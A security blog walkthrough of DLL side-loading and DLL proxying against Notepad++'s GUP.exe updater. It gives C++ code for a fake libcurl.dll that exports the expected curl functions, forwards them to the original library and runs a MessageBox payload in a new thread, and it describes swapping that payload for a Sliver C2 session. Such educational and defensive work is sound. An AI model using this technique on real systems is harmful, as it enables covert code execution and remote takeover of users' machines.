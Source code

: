 --- 
authors: tndt
tags: [malware]
description: Blog 
date: 2025-05-03
---
# Exploring DLL Side Loading: A practical walkthrough using Notepad++
In today's blog post, we're diving into DLL Side Loading - a technique often exploited by attackers to execute malicious code by abusing the way Windows searches for and loads dynamic link libraries.
We'll break down how DLL Side Loading works, how the Windows DLL search order contributes to the vulnerability, and walk through a practical example using Notepad++ as our target application.
{/* truncate */}
> ⚠️ Disclaimer  
> This article is for **educational** and **ethical** purposes only. 

## Understanding DLLs and DLL Side Loading
**Dynamic link libraries (DLLs)** are modular components that contain code and data used by multiple programs simultaneously. 
DLLs help reduce redundancy and optimize memory usage across Windows systems.

**DLL side loading** is a technique where an attacker places a malicious DLL in a location where a legitimate application may inadvertently load it instead of the intended one. 
This often happens due to the **Windows DLL search order**, which prioritizes certain directories (like the application's folder) over system directories when loading libraries.
By exploiting this search behavior, attackers can trick applications into executing their malicious payloads without modifying the target application itself.

## Tools & setup
For this walkthrough, we'll be using the following tools and setup:
- Target: Notepad++ v8.7.7
- ProcMon (Sysinternals): Monitor DLL loading and process activity
- x64dbg: Reverse-engineering and binary analysis
- Visual Studio: Compile our custom DLLs
- Sliver C2: Open-source C2 framework

Environment:
- Victim: Windows 10/11
- Attacker: Kali Linux
- Network: NAT (VMware)

## Case study: GUP.exe in Notepad++
Notepad++ ships with an updater utility called **GUP.exe (Generic Updater)**. 
It typically resides in `C:\Program Files\Notepad++\updater\GUP.exe`.
This executable checks for and installs updates for Notepad++ or its plugins. 
When run, it prompts a software update popup and loads several files from its directory, including:
- `GUP.exe`
- `libcurl.dll` -a dynamic library from the cURL project for network communication
- `gup.xml` - configuration file for update behavior

By using **ProcMon**, we observe that `GUP.exe` loads `libcurl.dll` from the local directory, making it an *ideal* candidate for DLL Side Loading.
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./procmon.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

## Crafting the first malicious DLL
To test the loading behavior, we create a simple malicious `libcurl.dll` with a MessageBox payload:
```cpp
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "Group-CK13", "Simple DLL", MB_OK | MB_ICONEXCLAMATION);
        break;
    }
    return TRUE;
}
```
Replace the original `libcurl.dll` with our malicious version and execute `GUP.exe`. 
We notice 2 things in **ProcMon**:
- Our malicious DLL was successfully loaded
- GUP.exe crashes due to missing exported functions like `curl_easy_setopt`
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./error.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

## Identifying and exporting required functions
The crash occurs because `GUP.exe` expects `libcurl.dll` to expose certain functions, which our malicious DLL lacks.
To identify them, use `dumpbin /IMPORTS GUP.exe` in the Visual Studio command prompt to inspect the **Import Address Table (IAT)**:
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./dumpbin.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

You'll find it imports these 4 functions: `curl_easy_init`, `curl_easy_setopt`, `curl_easy_cleanup`, `curl_easy_perform`

We modify our DLL to export these functions, with `curl_easy_init` triggering our MessageBox:
```cpp
extern "C" __declspec(dllexport) PVOID curl_easy_init() {
    MessageBoxA(NULL, "Group-CK13", "Simple DLL", MB_OK | MB_ICONEXCLAMATION);
    return NULL;
}
extern "C" __declspec(dllexport) PVOID curl_easy_setopt() { return NULL; }
extern "C" __declspec(dllexport) PVOID curl_easy_cleanup() { return NULL; }
extern "C" __declspec(dllexport) PVOID curl_easy_perform() { return NULL; }
```

Now, when running `GUP.exe`, we see the MessageBox as intended.
<div style={{ width: '60%', margin: '0 auto' }}>
  <img src={require("./init.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

## Combining with DLL proxying for stealth and functionality
However, if we proceed as described above, when the user runs GUP.exe (or updates Notepad++), 
they will not see the original Message Box of the application and will not be able to perform the original functionality.

Therefore, we combine this with the **DLL proxying** technique - a method used to intercept function calls that are originally directed to a legitimate DLL file. 
This is done by creating an intermediary DLL, called a Proxy DLL, which exports the same functions as the original DLL.

Steps:
1. Rename the original DLL file to `gup.dll`
2. Add the following `#pragma` comment directives:
- These are linker directives used to export functions just like the original DLL, but in fact, they forward the calls to the real DLL, which is now `gup.dll`
- Syntax: `/export:function_name=originalDLL.function_name,@ordinal`
```cpp
#pragma comment(linker, "/export:curl_easy_cleanup=gup.curl_easy_cleanup,@1")
#pragma comment(linker, "/export:curl_easy_init=gup.curl_easy_init,@6")
#pragma comment(linker, "/export:curl_easy_perform=gup.curl_easy_perform,@12")
#pragma comment(linker, "/export:curl_easy_setopt=gup.curl_easy_setopt,@16")
```
- Ordinal values: These are the index numbers of the exported functions, which can be viewed in tools like `x64dbg`.
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./x64.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

Write a `DoMagic()` function to display a MessageBox. 
This should run in a separate thread to avoid blocking the main process:
```cpp
DWORD WINAPI DoMagic(LPVOID lpParameter)
{
    MessageBoxA(NULL, "Group-CK13", "Simple DLL", MB_OK | MB_ICONEXCLAMATION);
    return 0;
}
```
When the DLL is loaded (`DLL_PROCESS_ATTACH`), it creates a new thread to run `DoMagic()`:
```cpp
case DLL_PROCESS_ATTACH:
    threadHandle = CreateThread(NULL, 0, DoMagic, NULL, 0, NULL);
    CloseHandle(threadHandle);
    break;
```
At this point, when `GUP.exe` is run again, both the original Message Box from the application and the injected (malicious) Message Box will appear.
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./proxy.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

## Establishing remote control with Sliver C2
To escalate the attack, we can modify the `DoMagic()` function to establish a reverse shell or C2 session. 
In this case, we used Sliver C2 on a Linux machine. 
Once the user launches GUP.exe (e.g., by checking for updates), a session is established on the attacker's C2 interface.
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./c2.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

For persistence and stealth, additional techniques like process injection, registry persistence (run keys), shellcode obfuscation can be employed - though we won't detail them here due to ethical concerns.

## Conclusion
DLL Side Loading is a powerful and commonly abused technique in the wild. By understanding how it works, defenders can:
- Audit how applications load DLLs
- Harden directory permissions
- Implement application whitelisting
- Monitor abnormal DLL load behavior with tools like ProcMon

From a red team or educational perspective, this hands-on walkthrough using Notepad++ shows just how easy it can be to hijack execution flow when the right conditions align.

*Stay safe. Stay informed.*